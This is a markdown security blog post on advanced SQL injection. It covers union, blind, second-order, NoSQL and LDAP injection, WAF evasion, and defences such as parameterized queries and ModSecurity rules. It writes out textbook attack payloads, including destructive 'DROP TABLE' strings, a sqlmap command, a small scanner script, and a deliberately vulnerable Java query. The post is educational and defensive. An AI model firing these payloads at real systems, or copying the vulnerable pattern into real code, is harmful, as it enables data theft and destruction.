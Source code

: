 ```yaml
---
title: "SQL Injection: Beyond the Basics"
date: "2025-09-12"
tags: ["SQL Injection", "Web Security", "Pentesting", "OWASP"]
description: "Moving past 'OR 1=1' to explore advanced SQL injection techniques, blind injection methods, and how modern frameworks protect us."
category: "Security"
featured: true
readTime: "12 min read"
---
```


# SQL Injection: Beyond the Basics

SQL injection remains one of the most critical web application vulnerabilities, consistently ranking in the OWASP Top 10. While most developers know about the classic `' OR 1=1--` example, there's a whole world of advanced techniques that attackers use in the wild.

## The Evolution of SQL Injection

### Classic Injection (Union-based)
The textbook examples we all learned:

```sql
-- Classic authentication bypass
' OR 1=1--

-- Union-based data extraction
' UNION SELECT username, password FROM users--
```

### Blind SQL Injection
When the application doesn't show SQL errors or results directly:

```sql
-- Boolean-based blind injection
' AND (SELECT COUNT(*) FROM users WHERE username='admin') > 0--

-- Time-based blind injection
' AND IF(1=1, SLEEP(5), 0)--
```

## Advanced Techniques

### 1. Second-Order SQL Injection
The payload is stored and executed later in a different context:

```php
// First request - payload stored
INSERT INTO users (username) VALUES ('admin\'; DROP TABLE logs;--')

// Second request - payload executed
SELECT * FROM logs WHERE user = 'admin'; DROP TABLE logs;--'
```

### 2. NoSQL Injection
MongoDB and other NoSQL databases have their own injection vectors:

```javascript
// MongoDB injection example
db.users.find({username: {$ne: null}, password: {$ne: null}})

// Bypasses authentication by finding any user with non-null credentials
```

### 3. LDAP Injection
Often overlooked in enterprise environments:

```ldap
// LDAP filter injection
(&(user=admin)(password=*))

// Bypasses password check
```

## Bypassing Modern Protections

### WAF Evasion Techniques

```sql
-- Case variation
UnIoN SeLeCt

-- Comment insertion
UN/*comment*/ION SE/**/LECT

-- Encoding
%55%4E%49%4F%4E (URL encoded UNION)

-- Alternative whitespace
UNION%0ASELECT (using newline)
```

### Prepared Statement Bypasses
Even prepared statements can be vulnerable:

```java
// Vulnerable even with prepared statements
String columnName = request.getParameter("sort");
String query = "SELECT * FROM users ORDER BY " + columnName;
PreparedStatement ps = connection.prepareStatement(query);
```

## Detection and Prevention

### Code-Level Protection

1. **Parameterized Queries** (Always!)
```sql
-- Correct way
SELECT * FROM users WHERE id = ?
```

2. **Input Validation**
```python
import re

def validate_input(user_input):
    # Whitelist approach
    if re.match("^[a-zA-Z0-9_-]+$", user_input):
        return True
    return False
```

3. **Least Privilege**
```sql
-- Database user should only have necessary permissions
GRANT SELECT ON products TO web_user;
-- Don't grant unnecessary privileges like DROP, ALTER
```

### Detection Tools and Techniques

```bash
# SQLMap - automated SQL injection testing
sqlmap -u "http://target.com/page.php?id=1" --batch --banner

# Manual testing with Burp Suite
# Look for time delays, error messages, behavior changes
```

## Real-World Impact

### Case Study: Recent Attack Chain

1. **Discovery**: Found SQLi in search parameter
2. **Enumeration**: Extracted database schema
3. **Privilege Escalation**: Found admin credentials
4. **Lateral Movement**: Used admin access to compromise other systems

### Business Impact
- **Data Breach**: Customer PII exposed
- **Compliance**: GDPR fines
- **Reputation**: Trust damage
- **Financial**: Incident response costs

## Defense in Depth

### Application Layer
```python
# Django ORM - naturally prevents SQLi
User.objects.filter(username=username)

# But raw queries need care
User.objects.raw("SELECT * FROM users WHERE id = %s", [user_id])
```

### Database Layer
```sql
-- Enable query logging
SET GLOBAL general_log = 'ON';

-- Monitor for suspicious patterns
SELECT * FROM mysql.general_log WHERE argument LIKE '%UNION%';
```

### Network Layer
```bash
# WAF rules (ModSecurity example)
SecRule ARGS "@detectSQLi" \
    "id:1001,\
     phase:2,\
     block,\
     msg:'SQL Injection Attack Detected'"
```

## Testing Your Applications

### Manual Testing Checklist

1. **Input Fields**: Forms, URL parameters, headers
2. **HTTP Methods**: GET, POST, PUT, DELETE
3. **Data Types**: String, numeric, boolean
4. **Special Characters**: `'`, `"`, `;`, `--`, `/*`

### Automated Testing

```python
# Simple SQLi scanner concept
import requests

def test_sql_injection(url, param):
    payloads = [
        "'",
        "' OR 1=1--",
        "'; DROP TABLE users;--"
    ]
    
    for payload in payloads:
        response = requests.get(url, params={param: payload})
        if "error" in response.text.lower():
            print(f"Potential SQLi found with payload: {payload}")
```

## Key Takeaways

1. **SQL injection isn't going away** - it's evolved
2. **Modern frameworks help** but aren't bulletproof
3. **Defense in depth** is essential
4. **Regular testing** should be part of your SDLC
5. **Developer education** is your best investment

## Resources for Further Learning

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [SQLMap Documentation](https://sqlmap.org/)

---

*Remember: This information is for educational and defensive purposes only. Always test on systems you own or have explicit permission to test.*
